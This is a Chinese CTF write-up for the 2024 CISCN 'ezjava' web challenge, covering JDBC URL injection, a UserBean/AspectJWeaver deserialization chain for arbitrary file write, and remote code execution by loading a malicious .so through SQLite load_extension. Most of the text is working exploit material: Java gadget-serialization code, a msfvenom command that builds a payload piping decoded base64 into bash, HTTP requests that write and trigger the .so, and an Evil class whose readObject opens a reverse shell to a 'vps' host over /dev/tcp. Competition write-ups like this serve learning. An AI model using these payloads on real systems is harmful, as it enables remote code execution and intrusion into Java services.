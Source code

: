 ```yaml
---
title: 2024CISCN_WEB_ezjava题解
date: 2024-06-01 18:53:00 +0800
img_path: /
categories: [CTF, CTF比赛记录]
tags: [CTF, CTF比赛记录]   

---
```




# 2024CISCN_WEB_ezjava题解

## 一、题目分析

访问可看到`JDBC`连接的界面，大概知道应该考察的是`JDBCAttack`

![image-20240601193237928](assets/image-20240601193237928.png)

反编译`jar`包可看到，这里`url`可控存在明显的利用点。

![image-20240601193457261](assets/image-20240601193457261.png)

`pom.xml`中看到`AspectJWeaver`，网上查到存在一个任意文件写的链，但是是依赖`CC`的。

![image-20240601193606087](assets/image-20240601193606087.png)

后面发现`Jar`包中自带了个`UserBean`并且实现了`Serializable`

![image-20240601194016489](assets/image-20240601194016489.png)

在`readObject`中可以看到调用的`a.put`并且`name`和`age`以及`a`都是可控的，所以不用`CC`也可以实现任意文件写。

```java
package org.example.JDBC;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;

import java.util.Base64;
import java.util.HashMap;

public class AspectJWeaverSer {

    public static void main(String[] args) throws Exception {
        Constructor con = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructor(String.class, int.class);
        con.setAccessible(true);
        // 实例化对象
        HashMap map = (HashMap) con.newInstance("/tmp/", 1); //这里写文件路径（必须是存在的路径）
        Constructor constructor = Class.forName("com.example.jdbctest.bean.UserBean").getDeclaredConstructor();
        constructor.setAccessible(true);
        Object userBean = constructor.newInstance();
        Class cls = userBean.getClass();
        Field field = cls.getDeclaredField("obj");
        field.setAccessible(true);
        field.set(userBean, map);
        Field field1 = cls.getDeclaredField("name");
        field1.setAccessible(true);
        field1.set(userBean, "xxx.xxx"); //这里写文件名
        Field field2 = cls.getDeclaredField("age");
        field2.setAccessible(true);
        String payload = "";  //这里写base64编码后的文件内容
        field2.set(userBean, payload);
        byte[] bytes = serialize(userBean);
        System.out.println(new String(Base64.getEncoder().encode(bytes)));
        Object o = deserialize(bytes);
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}
```

到这里以及完成了任意文件写，但是回到了一个经常被问到的问题：`SpringBoot`项目任意文件写如何才能RCE？

这里其实网上存在的一些方法比如覆盖`$JAVA_HOME/jre/lib/`路径下的`jar`包再去触发特定的方法，或者是往`$JAVA_HOME/jre/classes`写一个恶意类再去加载它（但是`classes`这个目录默认是没有的，就这个题而言是无法创建这个目录的，因为无法往不存在的路径写内容）。

在比赛时，尝试去利用但是条件都太局限了，最终也是没能实现（笔者太菜了），以为出题人想要考察`SpringBoot`项目任意文件写RCE，所以思维被局限在任意文件写`RCE`里了。

其实赛后看到大佬们的打法，才发现还有写一个恶意的`.so`文件然后通过`Sqlite`去加载`.so`文件的方法，还是对这方面了解的少太菜了  /(ㄒoㄒ)/~~。

## 二、题目复现

先生成个恶意的`.so`，

```bash
msfvenom -p linux/x64/exec CMD='echo YmFzaCAtaSA+JiAvxxxxxxxxxxx |base64 -d|bash' -f elf-so -o evil.so
```

![image-20240601203258833](assets/image-20240601203258833.png)



![image-20240601203508662](assets/image-20240601203508662.png)

fakeServer：`fake-mysql-gui-0.0.4.jar`

![image-20240601203944606](assets/image-20240601203944606.png)

写入恶意`.so`：

```poc
POST /jdbc/connect HTTP/1.1
Host: ip:port
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 78

{"type":"1","url":"jdbc:mysql://ip:port/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=base64ZGVzZXJfQ1VTVE9N"}
```

触发恶意`.so`:

```poc
POST /jdbc/connect HTTP/1.1
Host: ip:port
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 78

{"type":"3","tableName":"(select (load_extension(\"/tmp/evil.so\")));","url":"jdbc:sqlite:file:/tmp/db?enable_load_extension=true"}
```

![image-20240601203900568](assets/image-20240601203900568.png)

## 三、题外思考

在本地搭建环境调试和查资料的时候，发现假设可以往`$JAVA_HOME/jre/classes`里写内容，其实可以写一个恶意类比如`Evil.class`。

```java
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Evil implements Serializable {
    private void readObject(ObjectInputStream ois){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i >& /dev/tcp/vps/9001 0>&1").redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {

        }
        try {
            Runtime.getRuntime().exec("notepad");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}

```

我们可以在任意地方，通过反射获取这个类并且可以实例化。

```java
package org.example.JDBC;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class EvilCaller {
    public static void main(String[] args) {
        try {
            Class<?> evilClass = Class.forName("Evil");
            Object evilInstance = evilClass.getDeclaredConstructor().newInstance();
            ByteArrayOutputStream btout = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(btout);
            objOut.writeObject(evilInstance);
            System.out.println(new String(Base64.getEncoder().encode(btout.toByteArray())));
            //deserialize(btout.toByteArray());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}
```

那么可以往`$JAVA_HOME/jre/classes`写一个恶意类并且实现`Serializable`并重写它的`readObject`。

然后在`FakeServer`写入恶意类`Evil`序列化后的`Base64`编码，当再次触发时就可以实现`任意代码执行`。

